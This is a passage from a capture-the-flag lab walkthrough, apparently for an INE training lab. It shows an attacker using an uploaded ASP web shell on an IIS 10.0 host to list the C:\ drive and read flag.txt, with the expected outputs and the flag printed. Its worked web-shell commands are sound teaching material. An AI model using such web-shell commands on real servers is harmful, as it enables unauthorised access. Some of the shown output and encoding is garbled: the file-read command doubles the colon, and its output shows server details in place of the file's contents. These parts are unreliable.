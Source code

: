 **Analysis:** Successfully achieved remote code execution as user "bob" on the DOTNETGOAT system running IIS 10.0.

#### Phase 3: File System Exploration

**Step 3: Directory Listing**
```bash
# Command via web shell
Command: dir C:%5C
# URL encoded: http://demo.ine.local/webdav/webshell.asp?cmd=dir+C%3A%5C
```

**Expected Lab Output:**
```
Directory of C:\
11/14/2018  06:56 AM

11/02/2021  08:01 PM     32 flag.txt
10/27/2020  06:45 AM        inetpub
           05/13/2020  05:58 PM        PerfLogs
           10/27/2020  02:18 PM        Program Files
           10/27/2020  02:18 PM        Program Files (x86)
           10/27/2020  02:21 PM        [additional directories]
```

**Analysis:** Discovered flag.txt file in C:\ root directory, indicating successful file system access.

#### Phase 4: Flag Extraction

**Step 4: Reading the Target Flag**
```bash
# Command to read flag.txt
Command: type C:%3A%5Cflag.txt
# URL: http://demo.ine.local/webdav/webshell.asp?cmd=type+C%3A%5Cflag.txt
```

**Expected Lab Output:**
```
\\DOTNETGOAT\\bobdemo.ine.local

The server's port:
80

The server's software:
Microsoft-IIS/10.0

The server's local address:
10.0.31.40 [Highlighted text: 0cc175b9c0f1b6a831c399e269772661]
```

**Final Result:**
```
Flag: 0cc175b9c0f1b6a831c399e269772661
```
